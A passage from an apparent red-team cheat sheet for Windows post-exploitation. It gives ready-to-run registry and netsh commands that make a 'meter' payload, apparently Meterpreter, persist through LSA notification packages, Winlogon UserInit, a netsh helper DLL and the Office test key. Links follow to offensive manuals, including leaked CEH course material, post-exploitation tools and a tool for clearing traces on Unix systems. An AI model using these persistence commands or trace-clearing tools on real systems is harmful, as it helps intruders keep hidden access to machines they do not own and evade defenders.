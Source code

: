     `cmd#> reg add "HKLM\system\currentcontrolset\control\lsa" /v"Notification Packages" /t reg_multi_sz /d "rassfm\0scecli\0meter" /f`<br>

- Winlogon

    `cmd#> reg add "HKLM\software\microsoft\windows nt\currentversion\winlogon" /v UserInit /t reg_sz /d "c:\windows\system32\userinit.exe,c:\windows\meter.exe"`<br>

- Netsh

    `cmd#> c:\windows\syswow64\netsh.exenetsh> add helper c:\windows\meter32.dll`<br>
    `cmd#> reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v persistence /t REG_SZ /d "C:\Windows\SysWOW64\netsh.exe"`

- Office

    `cmd$> reg add "HKCU\Software\Microsoft\Office test\Special\Perf" /t REG_SZ /d C:\users\username\meter.dll`

# MANUALS

- [Red Team Notes](https://dmcxblue.gitbook.io/red-team-notes-2-0/)
- [Hacktricks](https://book.hacktricks.xyz/)
- [Redteamrecipe](https://redteamrecipe.com/)
- [Red Team Guides](https://book.redteamguides.com/)
- [Blue Team Guides](https://book.blueteamguides.com/)
- [swisskey manul](https://swisskyrepo.github.io/InternalAllTheThings/)
- [Infosec sources](https://github.com/foorilla/allinfosecnews_sources)
- [AD attack manul](https://defcon.ru/penetration-testing/18872/)
- [GTFOBins - UNIX LPE](https://gtfobins.github.io/)
- [MS office dde](https://telegra.ph/Poleznoe-10-16-2)
- [DLL Hijacking manul](https://elliotonsecurity.com/perfect-dll-hijacking/)
- [Kerberos&AD manul](https://ardent101.github.io/)
- [Hackerone reports](https://github.com/reddelexc/hackerone-reports)
- [ACL manul](https://labs.lares.com/securing-active-directory-via-acls/)
- [Mimikatz manul](https://hadess.io/mimikatz-comprehensive-guide/)
- [Small red team manul](https://afine.com/red-team-trickery/)
- [PHP Attack MANUL and others](https://blog.devsecopsguides.com/attacking-php)
- [THC Cheatsheet](https://github.com/hackerschoice/thc-tips-tricks-hacks-cheat-sheet)
- [Linux manul](linux_hacker_manul)
- [CEHv10 - leaked slides and labs](https://github.com/khanhnnvn/CEHv10)
- [malicious files](https://filesec.io)
- [manuls](https://posts.specterops.io/)

# PostExploitation

- [Amnesiac](https://github.com/Leo4j/Amnesiac) for Win and [Bashark](https://github.com/redcode-labs/Bashark) for linux
- [Unix trace clear tool](https://github.com/mufeedvh/moonwalk)
  
# WEB
## SQLi
